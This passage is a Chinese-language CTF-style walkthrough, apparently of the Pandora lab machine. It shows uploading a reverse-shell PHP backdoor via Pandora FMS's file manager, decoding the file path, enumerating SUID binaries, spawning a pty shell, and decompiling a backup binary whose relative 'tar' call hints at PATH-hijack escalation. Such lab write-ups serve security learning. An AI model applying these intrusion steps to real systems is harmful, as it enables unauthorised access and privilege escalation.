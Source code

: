然后我们进入管理页面，

![image-20220310150437770](image-20220310150437770.png)

在后门页面的admin tools 的文件管理里上传后门反弹shell文件

![image-20220310150914241](image-20220310150914241.png)

通过base64 解密url中base64部分得到相对位置。

```
└─# echo L3BhbmRvcmFfY29uc29sZS9pbmNsdWRlLy4uLy9hdHRhY2htZW50L2ZpbGVzX3JlcG8vMV9hYWEucGhw|base64 -d
/pandora_console/include/..//attachment/files_repo/1_aaa.php
```

访问后门得到shell

![image-20220310143003847](image-20220310143003847.png)

用`find / -perm -u=s 2> /dev/null` 找是否用权限配置有问题的命令

```
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

发现/usr/bin/pandora_backup 有点可疑。

运行后，shell崩了，可能用什么报错信息未看到，用python 加固shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

cp  pandora_backup  到web 目录`/var/www/pandora/pandora_console/images `下,在我们用户机器上访问下载。

在ida 里F5反汇编:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v3; // ebx
  __uid_t v4; // eax
  int result; // eax

  v3 = getuid();
  v4 = geteuid();
  setreuid(v4, v3);
  puts("PandoraFMS Backup Utility");
  puts("Now attempting to backup PandoraFMS client");
  if ( system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*") )
  {
    puts("Backup failed!\nCheck your permissions!");
    result = 1;
  }
```